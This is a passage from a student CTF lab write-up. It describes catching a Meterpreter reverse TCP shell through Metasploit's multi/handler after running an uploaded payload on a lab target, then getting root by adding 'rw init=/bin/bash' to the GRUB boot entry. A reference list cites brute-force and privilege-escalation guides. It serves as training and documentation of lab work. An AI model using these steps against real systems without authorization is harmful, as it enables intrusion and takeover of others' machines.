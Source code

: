 {{< figure src="/itsi/y3/ex7/images/scp.png" title="Figure 28: Uploading the payload to the target" >}}

The next step is to open the Metasploit console by running `msfconsole`. Set the exploit to `exploit/multi/handler`, the payload to `linux/x86/meterpreter/reverse_tcp`, the LHOST to `192.168.15.4`, and finally, run the command `run` to start the reverse TCP handler. After that, we execute the binary on the target, and we have a Meterpreter shell, as shown in Figures 29 and 30.

{{< figure src="/itsi/y3/ex7/images/msfc.png" title="Figure 29: Running the necessary commands in the msfconsole" >}}
{{< figure src="/itsi/y3/ex7/images/ep.png" title="Figure 30: Executing the payload on the target" >}}

Now that we have access to Meterpreter, we can use commands such as `getuid` to get the ID of the user and many other useful commands such as `upload` and `download`. However, as demonstrated in Figure 31, loading the priv module didn't work, so we were not able to test if `getsystem` would work to escalate the privileges.

{{< figure src="/itsi/y3/ex7/images/RadagJuice.png" title="Figure 31: The required modules not being loaded" >}}

---

### Getting root access through editing the GRUB boot options

Since we weren't able to gain access, we resorted to the good old and reliable GRUB root password reset.<cite>root-grub[^20]</cite>

To use this method, the system needs to be running the GRUB boot loader, which is the default for Ubuntu.

It is performed by pressing `e` when seeing the screen shown in Figure 32, which brings up the menu to edit the boot commands.

{{< figure src="/itsi/y3/ex7/images/pe.png" title="Figure 32: Showing the GRUB screen to press e on" >}}

Then navigate to the line starting with `linux` and append `rw init=/bin/bash`, as shown in Figure 33, to change a kernel parameter. After pressing F10, you will immediately boot into the system with a root shell, as shown in Figure 34.

{{< figure src="/itsi/y3/ex7/images/rw+.png" title="Figure 33: Editing a kernel parameter" >}}
{{< figure src="/itsi/y3/ex7/images/pwc.png" title="Figure 34: Changing the root password" >}}

Lastly, as displayed in Figure 34, we run the command `exec /sbin/init` to reboot the system and load into the operating system as usual. Figure 35 verifies this by showing the root login after rebooting.

{{< figure src="/itsi/y3/ex7/images/ve.png" title="Figure 35: Logging in as the root user" >}}

---

### Obtaining the final flag

Now that we are the root user, we can see a file called `root_flag.txt`, which contains the final flag. Additionally, we can view the file `ctf_setup.sh` to see how the CTF is made and verify that we actually got all of the flags this time. These files are also available in the ZIP file beside this document. Figure 36 shows the files in `/root` and the final flag.


[^1]: This task definition and summary were generated using ChatGPT from the original bullet points.
[^2]: Lockheed Martin. Cyber Kill Chain®. [source](https://www.lockheedmartin.com/en-us/capabilities/cyber/cyber-kill-chain.html)
[^3]: Nmap. Service and Version Detection. [source](https://nmap.org/book/man-version-detection.html)
[^4]: Nmap. Timing Templates (-T). [source](https://nmap.org/book/performance-timing-templates.html)
[^5]: 10-million-password-list-top-10000.txt. [source](https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/10-million-password-list-top-10000.txt)
[^6]: Code Zen. Defeating HTTP Basic Auth with Hydra. [source](https://tylerrockwell.github.io/defeating-basic-auth-with-hydra)
[^7]: GeeksforGeeks. How to use Hydra to BruteForce SSH Connections? [source](https://www.geeksforgeeks.org/how-to-use-hydra-to-brute-force-ssh-connections)
[^8]: Ask Ubuntu. What does 2>/dev/null mean? [source](https://askubuntu.com/questions/350208/what-does-2-dev-null-mean)
[^9]: GeeksforGeeks. find command in Linux Linux Tutorial. [source](https://www.geeksforgeeks.org/find-command-in-linux-with-examples)
[^10]: Uppin, C. M. Series of CTF machines Walkthrough #4 Linux Privilege Escalation (Enumeration). [source](https://medium.com/techiepedia/series-of-ctf-machines-walkthrough-4-linux-privilege-escalation-enumeration-247899027be)
[^11]: Delinea. Linux Privilege Escalation. [source](https://delinea.com/blog/linux-privilege-escalation)
[^12]: Uppin, C. M. Series of CTF machines Walkthrough #5 Linux Privilege Escalation using Kernel Exploit. [source](https://cmuppin9.medium.com/series-of-ctf-machines-walkthrough-5-linux-privilege-escalation-using-kernel-exploit-e188970fb905)
[^13]: Uppin, C. M. Series of CTF machines Walkthrough #7 Linux Privilege Escalation using SUID permissions. [source](https://cmuppin9.medium.com/series-of-ctf-machines-walkthrough-7-linux-privilege-escalation-using-suid-permissions-7f82335e7547)
[^14]: Uppin, C. M. Series of CTF machines Walkthrough #6 Linux Privilege Escalation using SUDO permissions. [source](https://cmuppin9.medium.com/series-of-ctf-machines-walkthrough-6-linux-privilege-escalation-using-sudo-permissions-c517cb789bc6)
[^15]: linux-smart-enumeration. [source](https://github.com/diego-treitos/linux-smart-enumeration)
[^16]: Qualys Corporation. Linux Kernel - 'ldso_hwcap Stack Clash' Local Privilege Escalation. [source](https://www.exploit-db.com/exploits/42274)
[^17]: metasploit-framework/documentation/modules/payload/linux/x86/meterpreter/reverse_tcp.md at master · rapid7/metasploit-framework. [source](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/payload/linux/x86/meterpreter/reverse_tcp.md)
[^18]: drd_. Null Byte. [source](https://null-byte.wonderhowto.com/how-to/get-root-with-metasploits-local-exploit-suggester-0199463)
[^19]: Metasploit Documentation. How to use msfvenom. [source](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html)
[^20]: LinuxConfig. Recover - Reset Forgotten Linux Root Password. [source](https://linuxconfig.org/recover-reset-forgotten-linux-root-password)